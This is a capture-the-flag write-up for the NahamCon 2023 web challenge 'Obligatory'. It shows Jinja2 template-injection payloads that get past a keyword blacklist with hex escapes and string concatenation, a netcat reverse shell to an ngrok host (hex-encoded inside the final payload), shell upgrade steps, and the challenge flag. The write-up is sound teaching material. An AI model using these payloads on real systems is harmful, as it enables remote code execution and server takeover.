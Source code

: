 ```yaml
---
CTF: Nahamcon 2023
Challenge Name: Obligatory
Category: Web
Date: 16/06/23
Author: congon4tor
Points: 461
Solves: 91
---
```

[![Nahamcon CTF 2023: Obligatory (Web)](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=1075 "Nahamcon CTF 2023: Obligatory (Web)")

### Description
>Every Capture the Flag competition has to have an obligatory to-do list application, right??? 

## Solution
Register account and try some payloads (XSS, SSTI, SQLi) but the notes all render as text without issues.

However, when a task is created there's a GET parameter `success`, that's set to `Task created`.

When changing the value to an [SSTI polyglot](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), `${{<%[%'"}}%\`, we get an error message.
```python
HACKER DETECTED!!!!
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

Bypasses: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#accessing-subclasses-with-bypasses

More bypasses here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

It's blocked due to `builtin` and `popen`, so let's go through it manually.
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')}}
```

We can use hex or concatenation to bypass the filter. 
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}
```

We don't get output.. let's [hex encode a reverse shell](https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgOC50Y3Aubmdyb2suaW8gMTU3MjMgPi90bXAvZg).
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 8.tcp.ngrok.io 15723 >/tmp/f
```

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```

Make the shell interactive.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg; 
export TERM=linux;clear;
```

Check the database folder.
```bash
cd DB
strings *
```

We find the flag!
```txt
flag{7b5b91c60796488148ddf3b227735979}
```